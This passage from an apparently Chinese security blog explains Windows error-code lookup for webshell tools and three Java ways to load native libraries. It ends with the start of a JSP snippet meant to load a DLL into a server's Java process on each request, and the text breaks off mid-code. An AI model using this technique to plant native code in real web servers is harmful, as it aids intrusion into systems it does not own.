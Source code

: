 ## 0x02 Windows错误代码

经常会遇到一些Windows下的工具刨出Error Code 5，到底代表什么意思？

这个Error Code 5其实是Windows的错误代码，每一个代码都代表了不同的含义。

查询错误代码的含义可以通过 `net helpmsg` 命令：

![](https://images.payloads.online/2022-08-11-22-04-15.png)

Visual Studio 有一个工具可以查询错误代码，名为errlookup：

![](https://images.payloads.online/2022-08-11-22-04-27.png)

![](https://images.payloads.online/2022-08-11-22-04-35.png)

有的时候Webshell管理工具并没有直接给出错误代码的含义，而是直接抛出错误代码，这种情况就能使用命令或者工具去查询，了解错误的发生到底是因为什么问题。

## 0x03 Java加载动态链接库常见的三种办法

Java加载动态链接库常见的有三种办法：

- System.load / System.loadLibrary
- Runtime.getRuntime().load
- com.sun.glass.utils.NativeLibLoader.loadLibrary

```java
private void RuntimeLoad(String path){
    Runtime.getRuntime().load(path);
}

private void SystemLoad(String path){
    System.load(path);
}

// 有些JDK版本没有这个对象，因此采用反射加载进行运行
private void NativeLoad(String path) throws Exception{
    Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
    if(Native != null){
        java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
        Load.invoke(path);
    }
}
```

第三种有些JDK版本没有这个对象，因此采用反射加载进行运行。

大致流程如下：

`System.load` → `Runtime.getRuntime**()**.load0**()**` →  `ClassLoader.loadLibrary` → `NativeLibrary.load` → `native void load*(*String name, boolean isBuiltin*)*`

我实现了一个简单版本的DLL加载JSP代码，确保每一个请求都可以加载一个DLL模块到Java进程中：

```java
<jsp:declaration>
// 获取随机的动态链接库文件名称
private String getFileName(){
    String fileName = "";
    java.util.Random random = new java.util.Random(System.currentTimeMillis());
    String os = System.getProperty("os.name").toLowerCase();
    if (os.contains("windows")){
        fileName = "C:\\Windows\\Temp\\" + random.nextInt(10000000) + ".dll";
    }else {
        fileName = "/tmp/"+ random.nextInt(10000000) + ".so";
    }
    return fileName;
}
```